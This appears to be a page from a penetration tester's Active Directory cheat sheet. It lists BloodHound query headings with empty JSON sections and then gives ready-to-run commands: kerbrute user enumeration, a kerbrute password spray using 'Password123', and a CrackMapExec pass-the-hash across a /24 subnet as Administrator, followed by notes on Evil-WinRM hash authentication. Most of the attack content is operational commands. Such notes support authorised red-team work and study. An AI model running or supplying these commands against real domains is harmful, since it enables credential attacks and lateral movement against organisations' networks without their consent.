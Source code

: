 ### BloodHound Custom Queries

#### Active Directory


**Imports**

<details><summary> Click me ffor the JSON</summary></details>

#### Active Directory Certificate Services

**Imports**

<details><summary> Click me for the JSON</summary></details>


### Azure

## Kerberos User Enumeration

### Brute forcing users

Gather a list of potential usernames and put into usernames.txt
```bash
kerbrute userenum -d [DOMAIN FQDN] --dc [DCHOSTNAME] usernames.txt
```
### Password Spraying
```bash
# See Enumeration or AS-REP Roasting to get domainusers.txt or make your own
kerbrute passwordspray -d [DOMAIN FQDN] domainusers.txt Password123
```


## Active Directory Lateral Movement


### Pass the Hash
A Pass the Hash (PTH) comes in many forms. From CrackMapExec, to RPC, to xfreerdp. 
This type of attack is simply using the NTLM hash of a domain account for authentication, rather than a password.

#### CrackMapExec (CME)
Doing a PTH with cme is quite easy. 
You enter the varying fields you want but instead of supplying a password, you supply a hash instead.
```bash
cme smb 192.168.0.0/24 -u Administrator -H [...snip...] 
```

#### Evil-WinRM
Evil-WinRM is an immensely powerful tool. It offers authentication both using credentials as well as hashes.

In order for this tool to work, even with valid credentials, the Windows Remote Management service has to be running and your user has to have valid permissions. (they usually do)

